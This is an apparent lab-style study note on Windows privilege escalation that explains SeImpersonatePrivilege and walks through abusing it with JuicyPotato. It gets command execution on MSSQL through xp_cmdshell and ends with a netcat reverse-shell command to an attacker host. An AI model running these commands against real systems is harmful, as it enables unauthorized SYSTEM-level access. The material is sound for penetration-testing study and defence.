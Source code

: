 # SeImpersonate 
The `SeImpersonatePrivilege` is a powerful security privilege in Microsoft Windows that allows a process to impersonate the security context of another user.

* `SeImpersonatePrivilege` allows a process to perform actions on behalf of another user
* Crucial for scenarios where a server application, such as a web server or a remote desktop service, needs to act on behalf of a client to access resources or perform operations

## How Does Impersonation Work?
1. Token Manipulation
* When a process has `SeImpersonatePrivilege`, it can create a token that represents the security context of another user
* This token can be attached to a thread, allowing that thread to perform actions as if it were the user associated with the token

2. Access Rights
* The thread running with an impersonation token can access resources and perform actions according to the permissions granted to the user represented by the token, rather than the permissions of the process that created the thread

## SeImpersonate Example using JuicyPotato
**Gaining a Foothold**
* An attacker gains access to an SQL server using a privileged SQL user account
* Attacker can execute commands and queries on the SQL server with high privileges

**Windows Authentication**
* SQL server and an IIS web server are configured to use Windows Authentication
* Allows users to log in to these services using Windows Credentials

**Resource Access Requirements**
* SQL server and IIS may need to access additional resources - such as file shares on a network
* To do this, they need to act on behalf of the client that established the connection

In this scenario, the SQL Service service account is running in the context of the default mssqlserver account. Imagine we have achieved command execution as this user using xp_cmdshell using a set of credentials obtained in a logins.sql file on a file share using the Snaffler tool.

### Connecting with MSSQLClient.py
* Using credentials 
* Connect to SQL server instance and confirm our privileges
* Use mssqlclient.py from Impacket toolkit

<pre>SQL > mssqlclient.py sql_dev@10.129.43.30 -windows-auth</pre>

### Enabling xp_cmdshell
* Enable the `xp_cmdshell` stored procedure to run operating system commands
* We can do this via Impacket MSSQL shell by typing `enable_xp_cmdshell`

<pre>SQL> enable_xp_cmdshell</pre>

* Confirm we are indeed running in the context of an SQL service account

<pre>SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01</pre>

### Check Account Privileges
<pre>SQL> xp_cmdshell whoami /priv

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled</pre>

* `SeImpersonatePrivilege` is listed
* Privilege can be used to impersonate a privileged account such as NT AUTHORITY\SYSTEM
* JuicyPotato can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges 

## Escalating Privileges using JuicyPotato
* Download JuicyPotato.exe binary
* Upload JuicyPotato.exe and nc.exe to the target server
* Setup a netcat listener on port 8443 and execute the command below

<pre>SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *</pre>

